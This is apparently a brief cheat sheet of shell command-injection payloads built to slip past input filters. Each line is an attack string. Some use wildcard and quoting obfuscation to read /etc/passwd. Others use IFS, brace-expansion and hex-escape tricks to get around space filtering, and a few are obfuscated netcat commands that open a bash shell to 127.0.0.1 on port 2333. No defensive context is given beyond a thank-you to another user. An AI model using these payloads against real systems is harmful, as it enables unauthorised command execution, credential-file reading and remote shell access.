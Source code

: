 - /???/c?t /???/pa??wd   
- /???/n??t -e /???/b??h 127.0.0.1 2333      
- /b$6in/nc$6at -e /bi$6n/ba$6sh 127.0.0.1 2333   
- /b"in/n"c\at -e /b'in/ba's\h 127.0.0.1 2333    
- IFS=,;`cat<<<cat,/etc/passwd`

- cat$IFS/etc/passwd
- cat${IFS}/etc/passwd
- cat</etc/passwd                 
- {cat,/etc/passwd} OR {ls,-las,/var} with args
- X=$'cat\x20/etc/passwd'&&$X

thanks @omespino 
